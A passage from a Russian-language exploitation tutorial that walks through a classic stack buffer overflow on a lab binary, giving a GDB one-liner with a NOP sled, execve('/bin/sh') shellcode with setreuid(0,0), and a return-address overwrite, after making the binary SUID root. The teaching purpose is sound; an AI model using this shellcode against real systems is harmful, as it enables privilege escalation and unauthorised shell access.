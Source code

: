 [![gdb-peda-continue-1.png](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-continue-1.png)](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-continue-1.png)
{:.center-image}

Теперь можно приступать к боевым действиям. Грубый эксплоит для выполнения из интерактивной оболочки GDB выглядит так (чуть позже сделаем это более красиво и без необходимости запускать отладчик).

```
gdb-peda$ r `python -c 'print "\x90"*32 + "\x6a\x46\x58\x31\xdb\x31\xc9\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "\x90"*32 + "A"*35 + "\xbf\xff\xed\xe8"[::-1]'`
```

Адрес, который перезаписывает EIP — `0xbfffede8`: мы прыгаем ровно на середину NOP-среза (см. рисунок заполнения стека).

Теперь я сменю владельца исполняемого файла и группу на root, присвою ему [SUID](https://xakep.ru/2010/01/12/50734/)-бит, чтобы вызов `setreuid(0,0)` (из шелл-кода) имел смысл, и выполню команду выше из-под отладчика.

```
$ sudo chown root overflow
$ sudo chgrp root overflow
$ sudo chmod +s overflow
```

[![gdb-peda-dash-id-1.png](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-dash-id-1.png)](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-dash-id-1.png)
{:.center-image}

Таким образом мы создали новый процесс, в котором запустился шелл `/bin/dash` (dash, кстати, на Debian и Ubuntu заменил собой старинный `/bin/sh`, который, в свою очередь, превратился лишь в симлинк на `/bin/dash`).

Выполнив команду `id`, видим, что мы все еще работаем с правами обычного пользователя — дело здесь в том, что GDB [не уважает](https://unix.stackexchange.com/questions/15911/can-gdb-debug-suid-root-programs) SUID-бит, только если он сам не запущен от имени root, поэтому сессию суперпользователя мы получим только тогда, когда выполним эксплуатация без участия отладчика.

## Полезная нагрузка после ESP

Если бы нам не хватило памяти для расположения шелл-кода в пределах «официально» выделенного буфера массива `buf`, то можно было бы попробовать захватить кусок «ничьей» памяти, находящейся за вершиной стека. Однако здесь все очень ситуационно, и размер области памяти, которую было бы допустимо использовать без серьезных последствий, непредсказуем и зависит только от текущего состояния машины.

К примеру, если я передаю строку из 1000 дополнительных байт после перезаписи адреса возврата, то ловлю ошибку неизвестной природы из функции ptmalloc_init.

[![gdb-peda-arena-c-error.png](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-arena-c-error.png)](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-arena-c-error.png)
{:.center-image}

Произошло это из-за того, что я беспардонно вторгся на территорию области памяти, с которой уже работали другие функции, и начал наводить там свои порядки — перезаписывать значения своими данными. GDB использует вспомогательные библиотеки для вывода более информативных сообщений об ошибках в случаях, когда программа падает. Если временно отключить использование этих библиотек (в нашем варианте отладочная информация все равно не слишком полезна), можно убедиться, что разделяемая библиотека стандартных функций Си `libc` жалуется на то, что мы затронули уже занятую ей память.


[//]: # (2019-09-20)